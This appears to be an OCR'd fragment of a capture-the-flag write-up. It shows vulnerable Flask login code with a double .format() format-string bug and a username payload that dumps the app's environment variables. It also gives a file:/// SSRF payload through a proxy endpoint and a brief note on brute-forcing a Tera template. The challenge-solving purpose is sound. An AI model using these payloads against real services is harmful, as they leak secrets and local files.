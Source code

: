 ```python
def index():
    if 'username' not in request.args or 'password' not in request.args:
        return open("index.html").read()
    else:
        username = request.args["username"]
        new_pwd = PassHash(request.args["password"])
        con = connect("users.db")
        cur = con.cursor()
        res = cur.execute(
            "SELECT * from users WHERE username = ? AND passhash = ?",
            (username, str(new_pwd))
        )
        if res.fetchone():
            return open("secret.html").read()
        return ("Sorry, we couldn't find a user '{user}' with password hash <code>{{passhash}}</code>!"
                .format(user=username)
                .format(passhash=new_pwd)
                )


if __name__ == "__main__":
    app.run('0.0.0.0', 10000)


```


`?username={passhash.__str__.__globals__[app].wsgi_app.__globals__[os].environ}&password=anything`


### http
扫目录
`/proxy/url?url=url:file:///flag%23.html`

### tera
[Tera (keats.github.io)](https://keats.github.io/tera/docs/#getting-started)
 然后做爆破
